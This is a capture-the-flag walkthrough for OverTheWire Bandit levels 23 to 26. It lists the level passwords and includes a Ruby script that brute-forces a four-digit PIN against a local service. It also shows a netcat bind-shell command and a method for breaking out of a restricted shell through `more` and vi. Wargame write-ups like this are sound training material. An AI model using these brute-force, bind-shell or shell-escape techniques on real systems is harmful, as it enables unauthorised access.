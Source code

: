 # OverTheWire - Bandit

By Brendan Weibrecht

## 23 -> 24



UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

## 24 -> 25

/tmp/ZimbiX_24-25.rb:

```ruby
    #!/usr/bin/env ruby

    require 'socket'

    s = TCPSocket.new 'localhost', 30002

    (0..9999).each do |i|
      x = i.to_s.rjust 4, '0'
      msg = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ #{x}"
      puts msg
      s.puts msg
      puts s.gets
    end
```

    The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

## 25 -> 26

Using the SSH key to log in to bandit26 kicks us out after showing some banner text.

`cat /etc/passwd` from bandit25 shows the shell is `/usr/bin/showtext`.

    bandit25@melinda:~$ cat /usr/bin/showtext
    #!/bin/sh

    more ~/text.txt
    exit 0

So it uses `more`.

Making the terminal 4 chars tall pauses in `more`.
Help shows you can execute a command in a subshell. This doesn't seem to wait or output.

`!nc -l -p 13376 -e /bin/bash`

Using the option to enter Vi, Vi shows you can do commands from there too. It looks like these don't work as they use the shell defined in $SHELL, which is the `showtext` binary.

Trying to set Vi's shell: `:set shell=/bin/bash` then running `:!/bin/bash`... works!

So steps are:

- Set up SSH key (save as `bandit26_rsa`, `chmod 600`)
- Make terminal 6 characters tall
- SSH (as bandit26 with key: `ssh -i bandit26_rsa bandit26@bandit.labs.overthewire.org`)
- Expand the terminal again (once it says "More" at the bottom)
- Press V to enter Vi
- Run `:set shell=/bin/bash`
- Run `:!/bin/bash`